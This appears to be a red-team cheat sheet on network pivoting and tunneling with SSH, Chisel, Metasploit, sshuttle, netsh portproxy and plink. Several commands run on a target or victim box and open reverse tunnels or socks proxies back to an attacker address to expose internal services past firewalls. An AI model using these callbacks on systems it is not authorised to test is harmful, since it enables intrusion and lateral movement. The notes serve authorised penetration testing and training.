# Tunneling      
## Contents    
- [Tunneling](#tunneling)
  * [Contents](#contents)
  * [SSH](#ssh)
    + [Local Tunnels](#local-tunnels)
    + [Reverse Tunnels](#reverse-tunnels)
    + [Dynamic Tunnels](#dynamic-tunnels)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
  * [Metasploit Tunneling](#metasploit-tunneling)
- [Linux](#linux)
  * [SShuttle](#sshuttle)
  * [IPTables](#iptables)
- [Windows](#windows)
  * [Portproxy](#portproxy)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)   
   
Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tunneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 
## SSH 
In SSH session: press enter a few times then ~C to append more tunnels to command (open command line mode). 
Config file: /etc/ssh/sshd_config. Need to restart SSH service whenever config changes are made.       

    /usr/sbin/sshd -t    #validate SSH config    
    systemctl status ssh    #view SSH server status 
    systemctl restart ssh   #restart SSH 
    systemctl stop ssh   #stop SSH server 
    systemctl start ssh   #Start SSH   
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target. Default local ip is 0.0.0.0

    ssh -p <port> user@pivot -L <local ip for specific interface>:<local port on attack box>:<target host>:<target port> 
    ssh -L 3333:localhost:3306 user@10.10.10.10            #local port forward example     
    ssh -L 3333:localhost:3306 8080:localhost:80 user@10.10.10.10     #multiple local port forward     
    netstat -antp | grep 3333   #confirm port forward      
    
### Reverse Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    open up pivot pivot to forward traffic back to local Kali box 
    ssh -R <pivot port>:localhost:<local port> user@<pivot ip> 
    
### Dynamic Tunnels           
Set up dynamic tunnels to scan through them (see scanning section below for more details)     

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

    
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box    
[HTTP vs SOCKS4 vs SOCKS5 proxies](https://medium.com/@ThibeauM/difference-between-http-socks4-and-socks5-proxies-85aca2a9e4ae)    
### Chisel socks Reverse Proxy 
    attack box    $ ./chisel server -p LISTEN_PORT --reverse &  
    target box    $ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    $ ./chisel server -p LISTEN_PORT --socks5  
    attack    $ ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    $ ./chisel server -p LISTEN_PORT --reverse &  
    target    # ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    $ ./chisel server -p LISTEN_PORT 
    attack    $ ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 

## Ligilo-ng     
[Ligolo-ng](https://github.com/nicocha30/ligolo-ng)    

## Metasploit Tunneling   
Route pivoting:    

    msf (meter) > bg 
    msf > route add 10.10.10.0/24 1   #add route to session 1, then scan or exploit using the session     
    Can then use scanners / commands like: auxiliary/scanner/portscan/tcp, nmap, dn_nmap, post/multi/gather/ping_sweep modules.        
    msf (meter) > run arp_scanner -r 10.10.10.0/24    
SOCKS Proxy    

    use auxiliary/server/socks_proxy
    socks4 	127.0.0.1 9050    #Add to /etc/proxychains.conf (or proxychains4.conf)    
Local Port Forwarding    

    (meter) > portfwd add -l 3300 -p 3389 -r 172.16.1.1    
    (meter) > portfwd add -R -l 8081 -p 1234 -L 10.10.10.10 #Reverse     
    
 # Linux 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 ## IPTables 
 
     iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.20:22 

 
 # Windows           
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT    
## Portproxy

    netsh interface portproxy add <type> listenport=<port in> connectport=<port out> connectaddress=<destination>  
    <type> can be v4tov4, v4tov6, v6tov4, v6tov6      
    netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80    


## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
[upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  

     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     #generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target         
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
 
 # DNS Tunneling    
 [DNSCat2](https://github.com/iagox86/dnscat2)     
 [DNSCat2 - PowerShell](https://github.com/lukebaggett/dnscat2-powershell)      
 
 # ICMP Tunneling   
 [Ptunnel-ng](https://github.com/utoni/ptunnel-ng)    
 
 [SOCKS Over RDP](https://github.com/nccgroup/SocksOverRDP)     
 [Proxifier](https://www.proxifier.com/download/#win-tab)     
